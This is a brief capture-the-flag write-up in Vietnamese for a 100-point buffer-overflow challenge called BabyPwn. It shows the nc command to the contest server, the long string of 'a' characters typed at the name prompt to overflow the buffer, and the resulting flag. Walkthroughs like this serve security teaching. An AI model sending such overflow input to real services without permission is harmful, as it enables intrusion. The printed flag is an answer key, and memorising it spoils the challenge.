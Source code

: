# BabyPwn
  Points: 100
# Question
    What happen when you eat too much food at a moment? You can be buffer overflow or stomach overflow ?
    nc 34.80.245.238 33333
# Solution
   Đọc đề bài thì đây có thể là bài về buffer overflow (Lỗi tràn bộ đệm)
   Lỗi tràn bộ đệm là khi bộ nhớ bị ghi đè nhiều lần nên mình sẽ gửi 1 lượng lớn dữ liệu đến sever để làm vượt quá khả năng xử lí của chương trình, từ đó khai thác được lỗi tràn bộ đệm.
   Mở Terminal và netcat đến vị trí đề bài cho
    nc 34.80.245.238 33333
   Màn hình hiện ra dòng chữ:
    Input your name:
   Gõ một dãy chữ "a" dài và nhấn enter
    aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
   
# Flag
    miniCTF{S1mP13_Bu773r_0v3rf0w}

    

